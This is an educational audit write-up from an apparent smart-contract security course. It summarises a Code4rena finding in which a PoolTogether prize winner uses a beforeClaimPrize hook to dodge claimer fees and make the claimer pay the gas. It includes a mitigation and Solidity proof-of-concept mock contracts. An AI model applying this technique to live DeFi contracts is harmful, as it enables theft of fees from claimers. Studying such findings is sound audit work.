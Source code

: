 # ETAAcademy-Adudit: 3. Hooks

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>03. Hooks</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>hooks</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] The winner can steal claimer fees, and force him to pay for the gas

### Use hooks to claim prize without fees

- Summary: To avoid paying transaction fees, a user can exploit a vulnerability in the Claimer contract. They can create a hook function, beforeClaimPrize, which allows them to claim their prize without paying fees and return their address. When the Claimer contract attempts to claim the prize, it fails as it has already been claimed. Using a MEV searcher, the user can then claim multiple prizes, including their own, without paying fees.

- Impact & Recommendation: One of the defense against the described attack is to check the gas cost of calling the beforeClaimPrize hook. By verifying if the prize state changes from unclaimed to claimed after the hook is called, transactions can be reverted if such a change occurs, thus preventing the attack from succeeding.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-01-the-winner-can-steal-claimer-fees-and-force-him-to-pay-for-the-gas) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    import { console2 } from "forge-std/console2.sol";
    import { PrizePoolMock } from "../contracts/mock/PrizePoolMock.sol";
    contract Auditor_MockPrizeToken {
        mapping(address user => uint256 balance) public balanceOf;
        function mint(address user, uint256 amount) public {
            balanceOf[user] += amount;
        }
        function burn(address user, uint256 amount) public {
            balanceOf[user] -= amount;
        }
    }
    contract Auditor_PrizePoolMock {
        Auditor_MockPrizeToken public immutable prizeToken;
        constructor(address _prizeToken) {
            prizeToken = Auditor_MockPrizeToken(_prizeToken);
        }
        // The reward is fixed to 100 tokens
        function claimPrize(
            address winner,
            uint8 /* _tier */,
            uint32 /* _prizeIndex */,
            address /* recipient */,
            uint96 reward,
            address rewardRecipient
        ) public returns (uint256) {
            // Distribute rewards if the PrizePool earns a reward
            if (prizeToken.balanceOf(address(this)) >= 100e18) {
                prizeToken.mint(winner, 100e18 - uint256(reward)); // Transfer reward tokens to the winner
                // Transfer fees to the claimer Receipent.
                // Instead of adding balance to the PrizePool contract and then the claimerRecipent
                // Can withdraw it, we will transfer it to the claimerRecipent directly in our simulation
                prizeToken.mint(rewardRecipient, reward);
                // Simulating Token transfereing by minting and burning
                prizeToken.burn(address(this), 100e18);
            } else {
                return 0;
            }
            return uint256(100e18);
        }
    }
    contract Auditor_Claimer {
        ClaimableWrapper public immutable prizeVault;
        constructor(address _prizeVault) {
            prizeVault = ClaimableWrapper(_prizeVault);
        }
        function claimPrizes(
            address[] calldata _winners,
            uint8 _tier,
            uint256 _claimerFees,
            address _feeRecipient
        ) external {
            for (uint i = 0; i < _winners.length; i++) {
                prizeVault.claimPrize(_winners[i], _tier, 0, uint96(_claimerFees), _feeRecipient);
            }
        }
    }

  ```

  </details>
